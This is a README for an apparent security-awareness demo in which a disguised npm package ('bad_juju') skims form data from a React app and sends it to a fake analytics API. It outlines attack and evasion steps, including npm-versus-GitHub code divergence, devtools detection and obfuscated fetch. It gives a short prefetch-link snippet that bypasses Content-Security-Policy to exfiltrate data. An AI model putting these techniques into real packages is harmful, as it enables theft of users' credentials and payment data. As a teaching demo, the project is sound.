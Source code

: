 If you're like me, you have grown to love how productive you can be using NPM. There is a staggering number of common problems that have already been solved. As developers, we tend to have a great deal of trust towards NPM and the code that it hosts. How often do we carefully examine the code we are about to import into our projects?

The following project aims to show the dangers of blindly importing NPM modules. It shows how just because you can see the code on Github does not mean the module you are importing is safe. It also demonstrates how all it takes is one disgruntled employee to start harvesting user's data, both silently and indefinitely. It shows just how hard it is to sniff out such an attack by utilizing some clever tricks. Finally, it aims to show how as our javascript project's dependencies grow, our risk of being affected by such an attack increases dramatically.

##### Credit

This entire project is based off [this Medium Post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). Credit to it's author, David Gilbertson, for all the ideas and even some of the code.

##### What all is here?

1. A basic React app with some form inputs that we will harvest
    * Created with create-react-app
    * found in /demo/src
2. A npm module, 'bad_juju', that will house our malicious code while presenting itself as a useful module
    * found in /node_modules/bad_juju
3. An api to receive the form data
    * Express server

##### Running the React Application

```javascript
# within demo dir
> yarn
> yarn start
```

##### Running the API

```javascript
# within demo dir
> yarn
> node ./api
```

##### How does the attack work?

1. User creates seemingly useful node_module
2. When imported, our node_module applies exploit to all forms on the site/application
3. Send all form data to an API - this should a) not be visible to humans and b) appear as though its just an analytics link
4. Be clever about how/when we send the form data and use all the information available to judge how safe it is to send
5. Make Pull Requests to Open Source projects and attempt to add our dependency to the project
6. Sit back and watch the data pour in

##### What shows in Github is not necessarily what is in NPM
using .gitignore, .npmignore, and the files configuration option in our package.json, we can have different code in NPM than what shows in Github. So you really have no clue what code you are running from NPM, even if you have complete access to the github source. The only way to check this would be to check the 3 config files from the first sentence of this section. I bet you don't do that every time you install an NPM module, do you?


##### Content Security Policy
This is supposed to be our saving grace, right? Wrong. In Chrome, we can bypass the content security policy using the following code
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

##### Why is NPM the distribution method?
When we add a dependency to our project, NPM will automatically pull in all of this new dependency's dependencies. This means that if one popular package gets infected, it will likely spread to hundreds or thousands of smaller packages. An infected top level package would be bad news for everyone. Remember left_pad?

##### So what... I can never use NPM modules?
Well that certainly is one option... If you truly want to ensure that you will never fall victim to this attack, you must isolate any pages with sensitive form data outside of the scope of the NPM modules. Example, for a login or checkout screen, you may want to embed an isolated page within an iFrame. This way no offending code will be able to attack the content with the iFrame. As a simple solution, one could stick to some good old fashion HTML.

##### Presenting this content
I created this project for a couple of reasons, namely, to recreate what David Gilbertson has described in his blog post. I ended up having a ton of fun setting this up, and wanted to turn it into a short talk - not unlike those you may find at a developers conference. 

Without further ado, here's the order I settled on when presenting:

1) Background terminology
    * What is NPM?
    * What is Content-Security-Policy? CORS?
    * What is fetch?
2) Demo the React Application + Look at the App/Form code
3) Demo the api + Look at the api code
    * Reminder that in the real world, the domain would look like an analytics site
4) Toggle on various checks in the code
    1) QA working
    2) Devtools open (The Heisenberg Manuever)
    3) Randomize attempts
    3) Known Devices
    4) In Dev/UAT/QA/Staging environment
5) Gitignore and Npmignore tricks
6) Obfuscated fetch (cipher technique + EventSource API)
7) Content-Security-Policy Bypasses
    * Append created link element w/ prefetch
    * report-uri not explicitly set
    * default-uri not explicitly set
    * Pre-reading the active Content-Security-Policy and acting on it
    * undefined form-action override
      * only perform once and bounce back - hope the user just shrugs it off
8) What can you do about it?
9) Questions/Comments


##### Possible Improvements
* Failed api requests should fail silently
* Make the Content-Security-Policy configurable on both ends
* This demo got more involved than I was anticipating, proper tests around the exploit would be nice.
* A more elegant (read: functional) way to configure/run the various safety nets

